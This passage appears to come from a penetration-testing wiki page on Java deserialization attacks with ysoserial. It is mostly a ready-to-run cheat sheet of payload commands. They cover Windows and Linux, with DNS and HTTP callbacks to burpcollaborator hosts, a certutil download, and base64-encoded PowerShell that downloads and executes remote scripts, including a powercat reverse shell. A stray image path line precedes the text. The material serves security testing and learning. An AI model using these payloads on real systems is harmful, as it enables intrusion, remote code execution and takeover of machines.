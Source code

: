 <br>

### **ysoserial**

The main tool to exploit Java deserializations is [**ysoserial**](https://github.com/frohoff/ysoserial) ([**download here**](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)). You can also consider using [**ysoseral-modified**](https://github.com/pimps/ysoserial-modified) which will allow you to use complex commands (with pipes for example).\
Note that this tool is **focused** on exploiting **`ObjectInputStream`**.\
I would **start using the "URLDNS"** payload **before a RCE** payload to test if the injection is possible. Anyway, note that maybe the "URLDNS" payload is not working but other RCE payload is.

```bash
# PoC to make the application perform a DNS req
java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload

# PoC RCE in Windows
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
# Time, I noticed the response too longer when this was used
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c timeout 5" > payload
# Create File
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
## In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
## To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
# Reverse Shell
## Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"

#PoC RCE in Linux
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload
# Time
## Using time in bash I didn't notice any difference in the timing of the response
# Create file
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "touch /tmp/pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
```